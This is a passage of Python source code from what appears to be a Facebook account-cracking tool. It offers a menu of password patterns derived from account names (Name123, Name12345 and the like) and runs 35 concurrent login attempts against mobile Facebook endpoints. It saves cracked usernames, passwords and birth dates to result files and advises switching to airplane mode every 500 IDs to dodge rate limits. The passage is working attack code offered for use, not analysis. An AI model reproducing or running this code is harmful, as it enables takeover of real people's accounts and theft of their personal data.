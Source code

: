                         month, day, year = cp_ttl.split('/')
                        month = bulan_ttl[month]
                        print('\r %sCP %s               \n Username : %s\n Password : %s\n Tanggal Lahir : %s %s %s%s\n'%(K,waktu,user,pw,day,month,year,N))
                        wrt = '[JAMES-CP] %s • %s • %s %s %s' % (user,pw,day,month,year)
                        cp.append(wrt)
                        open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                        break
                    except (KeyError, IOError):
                        month = ''
                        day   = ''
                        year  = ''
                    except:pass
                    print('\r %sCP %s               \n Username : %s\n Password : %s%s\n'%(K,waktu,user,pw,N))
                    wrt = '[JAMES-CP] %s • %s' % (user,pw)
                    cp.append(wrt)
                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                else:
                    continue
                #time.sleep(31)
            loop+=1
        except requests.exceptions.ConnectionError:
             self.__metode__(cebok, user, pasw)


    def __pler__(self):
        os.system('clear')
        logo()
        print ('[1] Method {1}')
        print ('[2] Method {2}')
        print ('[3] Method {3}')
        yan = input('\n%s[%s+%s] Select Method : '%(H,H,H))
        if yan == '':
            print('\n %s[%s×%s] Sorry, it is wrong...!'%(N,M,N));self.__pler__()
        elif yan in ('1', '01'):
            xx = "free.facebook.com"
            self.kombinasi_pw(xx)
        elif yan in ('2', '02'):
            xx = "mbasic.facebook.com"
            self.kombinasi_pw(xx)
        elif yan in ('3', '03'):
            xx = "m.facebook.com"
            self.kombinasi_pw(xx)
        else:
            print('\n %s[%s×%s] Sorry, it is wrong...!'%(N,M,N));self.__pler__()

    def kombinasi_pw(self,url):
        print('%s════════════════════════════════════════\n %sPASSWORD MENU%s'%(H,H,H))
        print('%s[%s1%s] Name,Name123,Name12345'%(H,H,H))
        print('%s[%s2%s] Name,Name123,Name1234,Name12345'%(H,H,H))
        print('%s[%s3%s] Name,Name123,Name1234,Name12345,%s+Single Password Using Coma%s'%(H,H,H,H,H))
        pw = input(f"\n{H}[{H}+{H}] Select Password Method : ")
        if pw in[""]:
            print(f" {N}[{M}!{N}] Don't be empty");self.kombinasi_pw(url)
        elif pw in["1","01"]:
            print('%s════════════════════════════════════════\n[%s+%s] OK : results/OK-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s[%s+%s] CP : results/CP-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s══════════════════════════════════════════\n[%s!%s] Use Airplane Mode If You No Result\n[%s!%s] Every 500 Id After Use Airplane Mode\n [%s!%s] To stop %sCTRL+c%s on keyboard\n══════════════════════════════════════════'%(H,H,H,H,H,H,H,H,H))
            with YayanGanteng(max_workers=35) as kirim:
                for yntkts in self.id:
                   try: